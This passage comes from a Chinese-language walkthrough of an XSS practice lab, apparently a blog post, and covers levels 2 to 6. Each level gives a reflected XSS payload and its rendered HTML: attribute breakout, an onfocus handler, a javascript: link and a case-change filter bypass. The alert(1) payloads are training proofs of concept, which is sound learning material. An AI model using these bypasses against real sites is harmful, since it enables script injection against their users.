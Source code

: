 在`<h2></h2>`中的内容被实体编码了，但在Input中没有：

```html
<input name=keyword  value="ccb">
```

因此在value中插入script，但是注意`">`闭合以及注释。

```html
?name="><script>alert(1)</script>//

// 效果如下
<input name=keyword  value=""><script>alert(1)</script>//">
```

### level 3

在`<h2></h2>`以及`<input>`中的内容均被实体编码，无法使用<>。

因此，使用`<input>`的特殊事件来触发script，input的<>可以不闭合。

```
?name=' onfocus=javascript:alert(1)//

// 效果如下
<input name=keyword  value='' onfocus=javascript:alert(1)//'>
```

输入后，再点击输入框即可出发onfocus事件。

### level 4

第三关的单引号闭合换为双引号。

### level 5

经过尝试，发现script、onfocus、οnmοuseοver 均被注释掉了。使用`<a>`标签。

```
?name="><a href=javascript:alert(1)>ccb</a>

// 使用效果如下，页面会增加一个显示为ccb的超链接，点击即可触发js代码
<input name=keyword  value=""><a href=javascript:alert(1)>ccb</a>">
```

### level 6

经过尝试，发现script和href均被过滤。使用大小写绕过。

```
?name="><a Href=javascript:alert(1)>ccb</a>

// 使用效果如下，页面会增加一个显示为ccb的超链接，点击即可触发js代码
<input name=keyword  value=""><a Href=javascript:alert(1)>ccb</a>">
```

### level 7
